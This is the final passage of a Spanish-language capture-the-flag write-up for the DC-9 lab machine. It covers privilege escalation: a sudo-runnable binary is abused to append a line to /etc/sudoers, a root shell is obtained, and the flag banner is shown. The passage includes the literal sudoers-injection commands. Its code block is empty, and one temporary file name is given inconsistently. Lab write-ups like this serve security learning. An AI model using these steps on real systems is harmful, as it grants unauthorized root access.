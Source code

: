 ```python
```
Simple, hay que ejecutarlo pasandole dos archivos cómo parámetros. El primer argumento lee un archivo y agrega su contenido al archivo que se le pasa como segundo parámetro. Esto significa que al hacer sudo y correr este script podemos leer cualquier archivo del sistema operativo, se me ocurren dos cosas que se pueden hacer:

* Agregar un usuario a ``/etc/passwd`` con privilegios de root.
* Agregar cualquier usuario ya existente a  ``/etc/sudoers`` con todos los privilegios.

Fui por la segunda opción.

---

## **Escalamiento de privilegios**

Lo primero que hay que hacer es agregar la información que queremos a un archivo cualquiera, en este caso ``/tmp/fredf``:


> **``echo "fredf ALL=(ALL:ALL) ALL" > /tmp/fred``**

Después se se corre el comando:

> **``sudo /opt/devstuff/dist/test/test /tmp/fred /etc/sudoers``**

Si todo salió bien se puede ejecutar cualquier comando con sudo, en este caso ``sudo su``:

```console
fredf@dc-9:~$ sudo su
[sudo] password for fredf:
root@dc-9:/home/fredf# id
uid=0(root) gid=0(root) groups=0(root)
```
---

## **Flag**

```console
cat theflag.txt


███╗   ██╗██╗ ██████╗███████╗    ██╗    ██╗ ██████╗ ██████╗ ██╗  ██╗██╗██╗██╗
████╗  ██║██║██╔════╝██╔════╝    ██║    ██║██╔═══██╗██╔══██╗██║ ██╔╝██║██║██║
██╔██╗ ██║██║██║     █████╗      ██║ █╗ ██║██║   ██║██████╔╝█████╔╝ ██║██║██║
██║╚██╗██║██║██║     ██╔══╝      ██║███╗██║██║   ██║██╔══██╗██╔═██╗ ╚═╝╚═╝╚═╝
██║ ╚████║██║╚██████╗███████╗    ╚███╔███╔╝╚██████╔╝██║  ██║██║  ██╗██╗██╗██╗
╚═╝  ╚═══╝╚═╝ ╚═════╝╚══════╝     ╚══╝╚══╝  ╚═════╝ ╚═╝  ╚═╝╚═╝  ╚═╝╚═╝╚═╝╚═╝

Congratulations - you have done well to get to this point.

Hope you enjoyed DC-9.  Just wanted to send out a big thanks to all those
who have taken the time to complete the various DC challenges.

I also want to send out a big thank you to the various members of @m0tl3ycr3w .

They are an inspirational bunch of fellows.

Sure, they might smell a bit, but...just kidding.  :-)

Sadly, all things must come to an end, and this will be the last ever
challenge in the DC series.

So long, and thanks for all the fish.
```
---
